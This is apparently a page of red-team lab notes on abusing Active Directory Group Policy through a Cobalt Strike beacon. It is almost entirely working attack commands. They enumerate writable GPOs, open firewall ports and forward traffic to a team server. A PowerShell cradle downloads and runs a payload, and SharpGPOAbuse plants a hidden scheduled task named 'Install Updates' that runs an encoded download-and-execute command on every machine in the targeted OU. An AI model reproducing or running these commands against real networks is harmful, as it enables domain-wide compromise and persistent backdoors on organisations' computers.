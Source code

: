 ```powershell
beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }

2. Resolve GPOName, Path and SID of principal
beacon> powerpick Get-DomainGPO -Identity "CN={AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath

beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}

3. Identify the domain OU where the above GPO applies
beacon> powerpick Get-DomainOU -GPLink "{AD2F58B9-97A0-4DBC-A535-B4ED36D5DD2F}" | select distinguishedName

4. Identify the systems under the given OU
beacon> powerpick Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

5. Setup a pivot listener (1234) on the beacon, and download & execute cradle pointing to pivot (80)
PS> IEX ((new-object net.webclient).downloadstring("http://wkstn-2:8080/pivot"))

6. Enable inbound traffic on pivot listener (1234) and WebDrive by ports (8080) (requires system access)
beacon> powerpick New-NetFirewallRule -DisplayName "Rule 1" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 1234
beacon> powerpick New-NetFirewallRule -DisplayName "Rule 2" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080

7. Setup port forwarding rule to accept the Payload Download request locally and forward to our team server
beacon> rportfwd 8080 127.0.0.1 80

8. Use sharpGPOAbuse to add the backdoor (scheduled task) for execution on targetted system
beacon> execute-assembly C:\Tools\SharpGPOAbuse\SharpGPOAbuse\bin\Release\SharpGPOAbuse.exe --AddComputerTask --TaskName "Install Updates" --Author NT AUTHORITY\SYSTEM --Command "C:\Windows\System32\cmd.exe" --Arguments "/c powershell -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwB3AGsAcwB0AG4ALQAyADoAOAAwADgAMAAvAHAAaQB2AG8AdAAiACkAKQA=" --GPOName "Vulnerable GPO"
```
### Create and Link new GPO
```powershell
1. Check the rights to create a new GPO in Domain
beacon> powerpick Get-DomainObjectAcl -Identity "CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -contains "CreateChild" } | % { ConvertFrom-SID $_.SecurityIdentifier }

2. Find the OU where any principal has "Write gPlink Privilege"
beacon> powerpick Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN,ActiveDirectoryRights,ObjectAceType,SecurityIdentifier | fl

beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107
DEV\Developers

3. Verify if RSAT module is installed for GPO abuse
beacon> powerpick Get-Module -List -Name GroupPolicy | select -expand ExportedCommands

```